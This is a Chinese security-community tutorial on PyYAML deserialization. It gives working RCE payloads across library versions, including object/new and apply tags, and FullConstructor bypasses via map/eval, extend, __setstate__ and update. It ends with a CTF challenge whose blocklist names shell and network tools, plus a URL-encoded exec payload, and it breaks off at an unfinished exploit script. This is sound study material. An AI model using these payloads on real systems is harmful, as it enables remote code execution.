# PyYAML反序列化学习-先知社区

> **来源**: https://xz.aliyun.com/news/16345  
> **文章ID**: 16345

---

## 前置知识

### Yaml简介

YAML（YAML Ain't Markup Language）是一种用于数据序列化的标记语言，主要用于配置文件和数据交换。其特点是可读性强、语法简洁。YAML类似于XML，但是语法比XML简单得多，对于转化成数组或可以hash的数据时是很简单有效的。

#### Yaml基本语法

* 一个 .yml 文件中可以有多份配置文件，用 `---` 隔开即可
* 对大小写敏感
* YAML 中的值，可使用 json 格式的数据
* 使用缩进表示层级关系
* 缩进时不允许使用 tab（`\t`），只允许使用空格。
* 缩进的空格数目不重要，只要相同层级的元素左侧对齐即可。
* `#` 表示注释，和 Python 一样
* `!!` 表示强制类型装换
* 可以通过 `&` 来定义锚点，使用 `*` 来引用锚点。`*` 也可以和 `<<` 配合，引用时会自动展开对象，类似 Python 的 `**dict()`
* YAML 支持的数据结构有三种
  1. 对象：键值对的集合
  2. 列表：一组按次序排列的值
  3. 标量（scalars）：原子值（不可再拆分），例如 数字、日期等等
* 可以通过 `!!` 来进行类型转换

### 类型转换

上面基本语法中提到yaml可以通过 `!!` 来进行类型转换，可以看下官方的源码



当进行类型转化时，我们可以简单地把`!!x x` 理解为`find_function("x")(x)`。以上源码可以发现有 `add_multi_constructor` 函数，它包括 5 个函数：

* `python/name`
* `python/module`
* `python/object`
* `python/object/new`
* `python/object/apply`

从上面那张图可以看到，这几个都可以引入新的模块，这就是 PyYAML 存在反序列化的根本原因。

## Yaml反序列化

### version < 5.1

yaml历史版本：<https://pypi.org/project/PyYAML/#history>

```
pip install PyYAML==4.2b4
```

我这以PyYAML==4.2b4为例

#### 关键方法

和众多反序列化漏洞一样，yaml中也有类似的反序列化方法，<5.1 版本中提供了几个方法用于解析 YAML：

1. `load(data)`
2. `load(data, Loader=Loader)`
3. `load_all(data)`
4. `load_all(data, Loader=Loader)`

其中`load`方法用于加载单个 YAML 配置，`load_all`用于加载多个 YAML 配置。可以发现可以指定加载器，而yaml中一共有三个加载器，加载器后面对应了三个不同的构造器：

1. `BaseConstructor`：最最基础的构造器，不支持强制类型转换
2. `SafeConstructor`：集成 BaseConstructor，强制类型转换和 YAML 规范保持一致
3. `Constructor`：在 YAML 规范上新增了很多强制类型转换

`Constructor` 这个是最危险的构造器，却是默认使用的构造器。

#### 漏洞poc分析

先编写一个简单的Demo，首先，我们使用poc\_test.py来创建一个poc对象，之后再调用yaml.dump()将其序列化为一个字符串，其中第9行代码用于将默认的`__main__`替换为该文件名`poc_test`，便于后续反序列化时加载指定文件中的poc类

```
import yaml
import os

class poc:
    def __init__(self):
        os.system('calc')

payload = yaml.dump(poc())
payload = payload.replace("__main__","poc_test")

fp = open('poc.yml','w')
fp.write(payload)
```

最终生成的 poc.yml 为

```
!!python/object:poc_test.poc {}
```

反序列化



在反序列化处打个断点，可以发现在构造器函数中存在`add_multi_constructor`函数



这个函数根据给定的标签来使用对应的构造器，比如

* !!python/object: => Constructor.construct\_python\_object
* !!python/object/apply: => Constructor.construct\_python\_object\_apply
* !!python/object/new: => Constructor.construct\_python\_object\_new

随便跟进一个，这里以 !!python/object/apply 标签为例



发现调用了`make_python_instance()`（跟进另外两个标签会发现同样是调用了`make_python_instance()`，!!python/object/new 会调用 !!python/object/apply），继续跟进



这个函数的作用根据给定的 `suffix` 查找对应的 Python 类，并根据传入的参数（`args` 和 `kwds`）创建该类的实例，而这个函数又调用了`find_python_name()`，继续跟进



这个相当于可以创建sys.modules模块中任意类，实现rce。因此从上面分析中知道yaml.load()且参数可控，则可以利用yaml反序列化漏洞。

##### !!python/object/new

其实都是一样的，换个函数而已

```
!!python/object/new:os.system ["calc.exe"]
!!python/object/new:subprocess.check_output [["calc.exe"]]
!!python/object/new:os.popen ["calc.exe"]
!!python/object/new:subprocess.run ["calc.exe"]
!!python/object/new:subprocess.call ["calc.exe"]
```

##### !!python/object/apply

```
!!python/object/apply:os.system ["calc.exe"]
!!python/object/apply:subprocess.check_output [["calc.exe"]]
!!python/object/apply:os.popen ["calc.exe"]
!!python/object/apply:subprocess.run ["calc.exe"]
!!python/object/apply:subprocess.call ["calc.exe"]
!!python/object/apply:subprocess.Popen ["calc.exe"]
```

##### !!python/object

这个标签还是一样可以调用`make_python_instance`，但是不能传参，但能调用无参数函数

除了上面三个标签外，还有两个标签可以利用，分别是 !!python/module 和 !!python/name，从名字都能看出来，一个和包，文件有关，一个和变量名有关

##### !!python/module

先写个恶意文件



然后触发反序列化

```
import yaml
poc = "!!python/module:poc"
yaml.load(poc)
```

打个断点跟进，发现这个标签构造器选择的是`construct_python_module`


调用了`find_python_module`，继续跟进



可以看见是导入了poc文件并运行

##### !!python/name

```
import yaml

test = "just_test"
poc = "!!python/name:__main__.test"
print(yaml.load(poc))
#just_test
```

调用的构造器为`construct_python_name`，跟进`find_python_name`


用`getattr`来得到变量的值

### 5.2>version>=5.1

```
pip install PyYAML==5.3.1
```

#### 关键方法

由于默认的构造器太过危险，在 PyYAML >= 5.1时，开发者就将构造器分为：

1. `BaseConstructor`：没有任何强制类型转换
2. `SafeConstructor`：只有基础类型的强制类型转换
3. `FullConstructor`：除了 `python/object/apply` 之外都支持，但是加载的模块必须位于 `sys.modules` 中（说明已经主动 import 过了才让加载）。这个是默认的构造器。
4. `UnsafeConstructor`：支持全部的强制类型转换
5. `Constructor`：等同于 `UnsafeConstructor`

反序列化函数为：

* `load(data) [works under certain conditions]`
* `load(data, Loader=Loader)`
* `load(data, Loader=UnsafeLoader)`
* `load(data, Loader=FullLoader)`
* `load_all(data) [works under certain condition]`
* `load_all(data, Loader=Loader)`
* `load_all(data, Loader=UnSafeLoader)`
* `load_all(data, Loader=FullLoader)`
* `full_load(data)`
* `full_load_all(data)`
* `unsafe_load(data)`
* `unsafe_load_all(data)`

当我们在`yaml.load`时，在不指定 `Loader` 的时候，默认是 `FullConstructor` 构造器，会有warning.在 `make_python_instance` 还新增的额外的限制：`if not (unsafe or isinstance(cls, type))`，也就是说，在安全模式下，加载进来的 `module.name` 必须是一个类（例如 `int`、`str` 之类的），否则就会报错。

#### 绕过FullConstructor

首先最简单的利用方式就是直接用<5.1的打法打，但是必须要指定构造器`UnsafeConstructor` 或者 `Constructor`，也就是

1. `yaml.unsafe_load(exp)`
2. `yaml.unsafe_load_all(exp)`
3. `yaml.load(exp, Loader=UnsafeLoader)`
4. `yaml.load(exp, Loader=Loader)`
5. `yaml.load_all(exp, Loader=UnsafeLoader)`
6. `yaml.load_all(exp, Loader=Loader)`

再说的话就是怎么绕过 FullConstructor 来引入类了，如果一个类满足在 FullConstructor 上下文中的 `sys.modules` 里，同时它还有一个类，那么这个类可以执行命令，而`subprocess.Popen`就满足（但是我试了下不行，报错说是找不到`python/object/apply:subprocess.Popen`的构造器）。除了 !!python/object/apply ，我们可以遍历一下看看 builtins 下的所有方法，找到一些看起来可能有用的：

```
bool、bytearray、bytes
complex
dict
enumerate
filter、float、frozenset
int
list
map、memoryview
object
range、reversed
set、slice、str、staticmethod
tuple
zip
```

在 python3 中 map 返回的是个迭代器，可以配合其他函数进行 rce ，比如

```
tuple(map(eval, ["__import__('os').system('whoami')"]))
# 其中tuple可以换成list、set、bytes、frozenset都行
```

故 poc 为

```
import yaml

poc = '''
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('whoami')"]
'''
yaml.load(poc)
```

按理说 list 和 set 也能实现同样的效果，但是这里用 !!python/object/new 标签是却会忽略参数，返回空


#### 利用extend

经过上面的分析，其实可以发现只要找到 触发带参调用 + 引入函数 就能rce

我们可以在`construct_python_object_apply`中看到


如果存在 listitems 属性，那么会调用实例的 extend 方法，以 listitems 为参数，故poc为

```
!!python/object/new:type
args:
  - test
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: "__import__('os').system('whoami')"
```

首先这是个 type 类，因为要动态设置参数，然后设置好 extend 和 listitems 的值就能调用了



#### 利用setstate

还是在`construct_python_object_apply`中

state 值不为空就会调用 `set_python_instance_state`，跟进


调用 instance 的 `__setstate__`方法，以state为参数，所以在 extend 的 poc 的基础上改下方法名和参数名就行，故poc

```
!!python/object/new:type
args:
  - test
  - !!python/tuple []
  - {"__setstate__": !!python/name:exec }
state: "__import__('os').system('whoami')"
```

#### 利用update

回到`set_python_instance_state`中


如果没有`__setstate__`方法，没有`__dict__`属性，则会触发`slotstate.update`函数，先贴poc，再断点分析（这里其实不需要设置 items 值也能rce，不过后面会对其进行一个键值对的检查，不设置的话会报错）

```
!!python/object/new:str
    args: []
    state: !!python/tuple
      - "__import__('os').system('whoami')"
      - !!python/object/new:staticmethod
        args: []
        state: 
          update: !!python/name:eval
          items: !!python/name:list
```

从内到外加载的，先加载 !!python/object/new:staticmethod ，此时该对象中 state 的键值对为

```
update: !!python/name:eval
items: !!python/name:list
```



走过`instance.__dict__.update(state)`就会将 `__dict__`中的键值更新



快进到加载 !!python/object/new:str ，state 的值现在为第一次进入后的结果加上恶意payload：



经过`state, slotstate = state`的解构后，state 被设置为了我们第一次放入的 state，slotstate 被设置为了我们第二次放入的 state



由于str没有`__dict__`属性，直接触发了 slotstate.update(state)



### version>=5.2

* 在5.2中只额外支持 !!python/name、!!python/object、!!python/object/new 和 !!python/module，而不支持apply标签
* 在5.3.1以上的版本中加了一个新的过滤机制，匹配到就报错



* 版本在5.4以上只支持!!python/name，!!python/object/apply、!!python/object、!!python/object/new
* 6.0以上的版本用户必须指定Loader了，否则报错

### [DASCTF 2024最后一战]yaml\_matser

源码

```
import os
import re
import yaml
from flask import Flask, request, jsonify, render_template


app = Flask(__name__, template_folder='templates')

UPLOAD_FOLDER = 'uploads'
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
def waf(input_str):


    blacklist_terms = {'apply', 'subprocess','os','map', 'system', 'popen', 'eval', 'sleep', 'setstate',
                       'command','static','templates','session','&','globals','builtins'
                       'run', 'ntimeit', 'bash', 'zsh', 'sh', 'curl', 'nc', 'env', 'before_request', 'after_request',
                       'error_handler', 'add_url_rule','teardown_request','teardown_appcontext','\\u','\\x','+','base64','join'}

    input_str_lower = str(input_str).lower()


    for term in blacklist_terms:
        if term in input_str_lower:
            print(f"Found blacklisted term: {term}")
            return True
    return False


file_pattern = re.compile(r'.*\.yaml$')


def is_yaml_file(filename):
    return bool(file_pattern.match(filename))

@app.route('/')
def index():
    return '''
    Welcome to DASCTF X 0psu3
    <br>
    Here is the challenge <a href="/upload">Upload file</a>
    <br>
    Enjoy it <a href="/Yam1">Yam1</a>
    '''

@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        try:
            uploaded_file = request.files['file']

            if uploaded_file and is_yaml_file(uploaded_file.filename):
                file_path = os.path.join(UPLOAD_FOLDER, uploaded_file.filename)
                uploaded_file.save(file_path)

                return jsonify({"message": "uploaded successfully"}), 200
            else:
                return jsonify({"error": "Just YAML file"}), 400

        except Exception as e:
            return jsonify({"error": str(e)}), 500


    return render_template('upload.html')

@app.route('/Yam1', methods=['GET', 'POST'])
def Yam1():
    filename = request.args.get('filename','')
    if filename:
        with open(f'uploads/{filename}.yaml', 'rb') as f:
            file_content = f.read()
        if not waf(file_content):
            test = yaml.load(file_content)
            print(test)
    return 'welcome'


if __name__ == '__main__':
    app.run()
```

`/Yam1`路由 yaml.load 很明显的yaml反序列化，yaml.load没有指定构造器，那应该是<5.1版本的了，禁了那么多，可以考虑编码绕过了，禁了base64，但没禁url编码，直接url编码就行

poc.yaml

```
!!python/object/new:type
args:
  - test
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: "import urllib;
      exec(urllib.parse.unquote('%5f%5f%69%6d%70%6f%72%74%5f%5f%28%22%6f%73%22%29%2e%73%79%73%74%65%6d%28%22%77%68%6f%61%6d%69%22%29'))"
```

exp.py

```
import requests

